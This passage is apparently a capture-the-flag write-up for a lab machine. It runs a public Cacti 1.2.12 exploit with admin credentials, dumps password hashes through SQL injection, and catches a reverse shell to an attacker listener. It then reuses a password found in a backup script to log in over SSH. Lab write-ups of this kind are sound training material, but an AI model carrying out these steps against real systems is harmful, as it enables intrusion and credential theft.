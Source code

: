 It is running version 1.2.12 which is outdated as the most recent version is 1.2.17, a quick google search presented us this [exploit](https://www.exploit-db.com/exploits/49810).

We run it with this syntax and catch a reverse shell with a netcat listener:
```
python3 cacti.py -t http://cacti-admin.monitors.htb/ -u admin -p BestAdministrator@2020! --lhost 10.10.14.59 --lport 4444


[+] Connecting to the server...
[+] Retrieving CSRF token...
[+] Got CSRF token: sid:980bc56c825b39336fd6a5c39bc155168d50ad63,1625163327
[+] Trying to log in...
[+] Successfully logged in!

[+] SQL Injection:
"name","hex"
"",""
"admin","$2y$10$TycpbAes3hYvzsbRxUEbc.dTqT0MdgVipJNBYu8b7rUlmB8zn8JwK"
"guest","43e9a4ab75570f5b"

[+] Check your nc listener!
```

Some basic enumeration gave us this file in the home directory of marcus:

```
$ cat .backup/backup.sh
cat .backup/backup.sh
#!/bin/bash

backup_name="cacti_backup"
config_pass="VerticalEdge2020"

zip /tmp/${backup_name}.zip /usr/share/cacti/cacti/*
sshpass -p "${config_pass}" scp /tmp/${backup_name} 192.168.1.14:/opt/backup_collection/${backup_name}.zip
rm /tmp/${backup_name}.zip
```

We can use that password to authenticate as marcus via ssh.

```
ssh marcus@10.129.169.137 
VerticalEdge2020
```

Some more enumeration:

```
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:8443          0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
udp        0      0 127.0.0.53:53           0.0.0.0:*                           -                   
udp        0      0 0.0.0.0:68              0.0.0.0:*                           -                   
```